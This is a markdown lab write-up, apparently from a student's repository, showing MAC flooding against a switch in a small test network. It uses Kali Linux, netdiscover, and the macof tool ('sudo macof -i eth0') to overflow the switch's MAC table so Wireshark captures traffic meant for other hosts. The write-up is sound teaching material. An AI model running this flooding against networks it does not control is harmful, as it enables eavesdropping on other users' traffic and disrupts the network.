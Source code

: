 ```yaml
---
title: MAC flooding
---
```


# MAC flooding

1. Goal
    * Changing the behavior of the switch to the behavior of a hub. (Monitoring all traffic)

2. Used hardware
    * 1 laptop with Kali Linux
    * 2 devices (Client & Server)
    * 1 laptop with Wireshark
    * 1 switch

3. Used software
    * Kali Linux (2020.1)
    * Wireshark 3.2.2

4. Setup

    ![Success](./assets/flooding.png)

5. Getting started
    1. Get an overview of your network. (Kali Linux)
    
    ```
    kali@kali:~# sudo netdiscover
    ```

    ```
    Currently scanning: 192.168.20.0/16   |   Screen View: Unique Hosts                                  
                                                                                                      
    2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                      
    _____________________________________________________________________________
        IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
    -----------------------------------------------------------------------------
    192.168.1.1     00:24:9b:13:3d:74      1        60  Action Star Enterprise Co., Ltd.                                          
    192.168.1.4     00:21:70:af:62:79      1        60  Dell Inc.   
    ```

    The result shows us the client (192.168.1.1) and the server (192.168.1.4).

    2. Start the communication between the client and the server.

    ```
    C:\Users\Student>ping 192.168.1.4 -t

    Pinging 192.168.1.4 with 32 bytes of data:
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    ```
    
    3. Look at the MAC address table of the client.

    ```
    C:\Users\Student>arp -a

    Interface: 192.168.1.1 --- 0xb
        Internet Address      Physical Address      Type
        192.168.1.4           00-21-70-af-62-79     dynamic   
        192.168.1.255         ff-ff-ff-ff-ff-ff     static    
        224.0.0.22            01-00-5e-00-00-16     static    
        224.0.0.251           01-00-5e-00-00-fb     static    
        224.0.0.252           01-00-5e-00-00-fc     static 
    ```

    4. Start Wireshark. (Kali Linux)

    ![Success](./assets/capture.png)

    The result shows us no ICMP traffic destined for the server (192.168.1.4).

    5. Install macof on Kali Linux. (If necessary)

    ```
    kali@kali:~# sudo apt-get update
    kali@kali:~# sudo apt-get upgrade
    kali@kali:~# sudo apt-get install dsniff
    ```

    6. Check the MAC address table of the switch.

    ```
    Switch#show mac address-table
              Mac Address Table
    -------------------------------------------

    Vlan    Mac Address       Type        Ports
    ----    -----------       --------    -----
    All    0100.0ccc.cccc    STATIC      CPU
    All    0100.0ccc.cccd    STATIC      CPU
    All    0180.c200.0000    STATIC      CPU
    All    0180.c200.0001    STATIC      CPU
    All    0180.c200.0002    STATIC      CPU
    All    0180.c200.0003    STATIC      CPU
    All    0180.c200.0004    STATIC      CPU
    All    0180.c200.0005    STATIC      CPU
    All    0180.c200.0006    STATIC      CPU
    All    0180.c200.0007    STATIC      CPU
    All    0180.c200.0008    STATIC      CPU
    All    0180.c200.0009    STATIC      CPU
    All    0180.c200.000a    STATIC      CPU
    All    0180.c200.000b    STATIC      CPU
    All    0180.c200.000c    STATIC      CPU
    All    0180.c200.000d    STATIC      CPU
    All    0180.c200.000e    STATIC      CPU
    All    0180.c200.000f    STATIC      CPU
    All    0180.c200.0010    STATIC      CPU
    All    ffff.ffff.ffff    STATIC      CPU
      1    0021.70af.6279    DYNAMIC     Gi0/1
      1    0024.9b13.3d74    DYNAMIC     Gi0/4
      1    d067.e556.cac8    DYNAMIC     Gi0/2
      1    ecf4.bb1b.7671    DYNAMIC     Gi0/3
    Total Mac Addresses for this criterion: 24
    Switch#
    ```
    
    6. Launch the attack. (MAC Flooding)

    ```
    kali@kali:~# sudo macof -i eth0
    ```
    
    7. Clear the MAC address table of the switch. (To speed up the result of the attack)

    ```
    Switch#clear mac address-table  
    ```

    8. Stop the attack and check the status of MAC address table.

    ```
    Switch#show mac address-table count

    Mac Entries for Vlan 1:
    ---------------------------
    Dynamic Address Count  : 8170
    Static  Address Count  : 0
    Total Mac Addresses    : 8170

    Total Mac Address Space Available: 0

    Switch# 
    ```
    9. Check Wireshark.

    ![Success](./assets/capture2.png)

    The result shows us ICMP traffic destined for the server (192.168.1.4).

6. Conclusion
    
    * It is easy to change the behavior of a switch to the behavior of a hub.